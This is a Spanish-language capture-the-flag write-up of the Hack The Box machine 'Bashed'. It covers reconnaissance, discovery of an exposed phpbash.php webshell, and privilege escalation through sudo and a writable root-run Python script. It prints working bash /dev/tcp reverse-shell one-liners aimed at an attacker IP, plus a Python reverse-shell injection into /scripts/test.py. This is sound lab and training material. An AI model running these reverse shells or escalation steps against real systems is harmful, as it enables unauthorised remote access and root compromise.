










# 🧰 Hack The Box — Bashed

- **IP:** 10.10.10.68  
- **Nivel:** Fácil  
- **Sistema operativo:** Linux  
- **Categoría:** Web, Escalada de Privilegios  
- **Flag user:** ✅  
- **Flag root:** ✅  

---

## 🧾 Información general

Bashed es una máquina Linux de nivel básico en Hack The Box. En este reto, un desarrollador dejó un archivo *webshell* accesible en el servidor, permitiendo acceso como `www-data`. A partir de ahí, se escalaron privilegios aprovechando configuraciones incorrectas hasta conseguir acceso como `root`.

---

## 🔍 Fase 1: Reconocimiento

### WhatWeb

```bash
whatweb http://10.10.10.68
```



#### Resultados:
- Servidor web: Apache 2.4.18 sobre Ubuntu
- Soporte para PHP detectado
- Página principal estática → Posibles rutas ocultas

---

## 🚪 Fase 2: Escaneo y enumeración

### Escaneo Nmap

```bash
nmap -sCV 10.10.10.68
```

#### Parámetros:
- `-sC`: scripts por defecto
- `-sV`: detección de versiones


  
#### Resultado:
- Puerto **80/tcp** abierto → Apache 2.4.18


### Enumeración web con script

```bash
nmap --script http-enum -p80 10.10.10.68
```



#### Resultados:
- Directorio **/dev/** descubierto
- Contenido del directorio: `phpbash.php` → Shell web funcional

---

## 💥 Fase 3: Explotación

Se utilizó el archivo `phpbash.php` para lanzar una **reverse shell**:

### Reverse shell

Desde `phpbash.php`:

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.22/4444 0>%261"
```

En el atacante:

```bash
nc -lvnp 4444
```




##### Resultado:
- Shell obtenida como `www-data`.

### Estabilizar shell

```bash
script /dev/null -c bash
```




---

## ⬆️ Fase 4: Escalada de privilegios

### Verificar permisos sudo

```bash
sudo -l
```



##### Resultado:
- `www-data` puede ejecutar comandos como scriptmanager sin contraseña.

### Cambiar a scriptmanager

```bash
sudo -u scriptmanager /bin/bash
```

### Buscar archivos con permisos

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```



##### Resultado:
- Archivo `/scripts/test.py` con permisos de escritura.

### Inyectar Reverse Shell en `test.py`

```bash
echo "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.22/4445 0>&1\"')" > /scripts/test.py
```

Desde el atacante:

```bash
nc -lvnp 4445
```



##### Resultado:
- Shell obtenida como `root`.

---

## 🏁 Fase 5: Post-explotación

### Flags

```bash
cat /home/arrexel/user.txt
```



```bash
cat /root/root.txt
```


